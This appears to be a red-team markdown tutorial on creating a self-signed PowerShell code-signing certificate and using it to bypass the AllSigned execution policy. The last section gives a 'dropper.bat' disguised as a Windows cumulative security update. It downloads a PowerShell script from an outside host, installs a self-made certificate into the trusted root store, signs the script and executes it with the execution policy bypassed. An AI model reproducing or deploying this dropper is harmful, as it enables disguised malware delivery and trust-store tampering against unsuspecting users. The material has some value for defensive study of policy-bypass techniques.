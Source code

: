 ### Create a Self-Signed Certificate for Code Signing

<br />

In PoweShell 3.0, the [New-SelfSifgnedCertificate](https://docs.microsoft.com/en-us/powershell/module/pkiclient/new-selfsignedcertificate?view=win10-ps) cmdlet was generating only SSL certificates that couldn’t be used to sign the driver and application code (unlike certificates generated by the MakeCert utility). In PowerShell 5 the new version of the New-SelfSifgnedCertificate
cmdlet can now be used to issue a Code Signing certificates.

<br />

#### Lets build our test script { my_posh_script.ps1 } - Open Notepad Copy/Paste/Save it
```
# Malicious Code to execute
write-host "Just to test IF certificate sign was worked.." -ForeGroundColor green -BackGroundColor black
Start-Sleep -Seconds 3

```
<br />

#### Lets set 'Target' PS Execution Policy to 'AllSigned' to test the script (no need admin rigths)
`Set-ExecutionPolicy AllSigned -Scope CurrentUser`
![drrr](https://user-images.githubusercontent.com/23490060/72698984-6cf18480-3b3e-11ea-8c93-81b5ae68a9d6.png)

<br />

#### Lets Run our Script (With PS ExecutionPolicy set to 'AllSigned')
[AllSigned = Requires that all scripts and files are signed by a trusted publisher, including scripts written on local computer.](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-7)
![sd11](https://user-images.githubusercontent.com/23490060/72687408-6a1e7180-3af5-11ea-8d14-c0ffa221468d.png)

<br />


#### To create a self-signed certificate for signing the application code (my_posh_script.ps1), run the command:
```
$cert = New-SelfSignedCertificate -Subject "My Code Signing Certificate” -Type CodeSigningCert -CertStoreLocation cert:\LocalMachine\My
```
![sdr](https://user-images.githubusercontent.com/23490060/72689217-0dc44d80-3b07-11ea-98f6-1acadb0615b3.png)

<br />

#### Let’s try to sign our PowerShell script (my_posh_script.ps1) using this certificate:
```
Set-AuthenticodeSignature -FilePath $env:userprofile\Desktop\my_posh_script.ps1 -Certificate $cert
```
![fdr](https://user-images.githubusercontent.com/23490060/72689232-3cdabf00-3b07-11ea-9ba7-ff830fca7356.png)

**Remark:** f you are receiving an **'UnknownError'** warning when executing the command, this means that **'the certificate is not trusted'**.
Because it is located in the **'user’s personal certificates store'** -> (open certlm.msc snap-in [Windows+R -> `certlm.msc`] to see it)
![sd3](https://user-images.githubusercontent.com/23490060/72686272-bfa15100-3aea-11ea-9f1a-7ae2e2cb0cb2.png)

<br />

#### We need to move our certificate to the 'trusted root certificates' store
![sd4](https://user-images.githubusercontent.com/23490060/72686277-dba4f280-3aea-11ea-9332-9e8c274bb9fe.png)
![sd5](https://user-images.githubusercontent.com/23490060/72686281-e52e5a80-3aea-11ea-96a6-a11bf6e8e8f3.png)
![sd6](https://user-images.githubusercontent.com/23490060/72686284-ec556880-3aea-11ea-9af0-3e43c4ea8fa1.png)

<br />

#### After that, you can sign your PowerShell script with this self-signed certificate.
```
Set-AuthenticodeSignature -FilePath $env:userprofile\Desktop\my_posh_script.ps1 -Certificate $cert
```
![dsf](https://user-images.githubusercontent.com/23490060/72689414-1158d400-3b09-11ea-9d6a-449a224c1952.png)
#### After the script beeing signed, it will be append one certificate {code block} inside the PS script:
![po1](https://user-images.githubusercontent.com/23490060/72687557-d2ba1e00-3af6-11ea-840b-702ccbe4bc73.png)
#### Running the script with PS Execution-Policy set to 'AllSigned'
[AllSigned. Requires that all scripts and files are signed by a trusted publisher, including scripts written on local computer.](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-7)
![sdff](https://user-images.githubusercontent.com/23490060/72687601-6a1f7100-3af7-11ea-8f95-9d611d8867b2.png)

---

<br />

**Remark:** After beeing signed, the PS script can not be changed under the risk of breaking cert code block

**Remark:** Remmenber that this certificate its only valid for the Local Machine (current PC) were it was been stored..
That meens if we port the PS script to a remote machine it will not execute, because remote machine does not contain
this certificate in there certificate store ...

<br />

#### Revert Target System to 'Default' Settings. (non admin privs requiered)
`cmd /c echo Y | powershell Set-ExecutionPolicy Restricted -Scope CurrentUser`
![fin](https://user-images.githubusercontent.com/23490060/72699309-ae366400-3b3f-11ea-9397-fc9c2510f907.png)

---

<br />

This next step shows us how this technic can be abused (PS Execution Policy bypass) to remote Download/Execute our PS Script, even if target system is config to Only run digitally Signed PS scripts .. It will download and execute him ..

<br />

#### Batch (dropper.bat) Automation Example:
```
@echo off
title Cumulative Security Update KB4524147

:: Code to Download our PS script to 'tmp' remote folder
powershell -C (New-Object Net.WebClient).DownloadFile('http://192.168.1.71/my_posh_script.ps1', '$env:tmp\my_posh_script.ps1')
timeout /T 2 >nul

:: Code to digitally sign Our Downloaded PS script (my_posh_script.ps1) { This certificate expires in six months }
powershell $cert = New-SelfSignedCertificate -Subject "My Code Signing Certificate” -FriendlyName "SsaRedTeam" -NotAfter (Get-Date).AddMonths(6) -Type CodeSigningCert -CertStoreLocation cert:\LocalMachine\My;Move-Item -Path $cert.PSPath -Destination "Cert:\CurrentUser\Root";Set-AuthenticodeSignature -FilePath $env:tmp\my_posh_script.ps1 -Certificate $cert
timeout /T 2 >nul

:: Code to Execute our Downloaded script
powershell -Execution Bypass -NoProfile -File "$env:tmp\my_posh_script.ps1"
```
**Remark:** This Dropper.bat can Download-PS-Script/Build-Cert/Sign-PS-Script/Execute-PS-Script because the Policy
its set by Default to powershell Scripts Only (this policy does not affects batch scripts from running and executing all of this)..
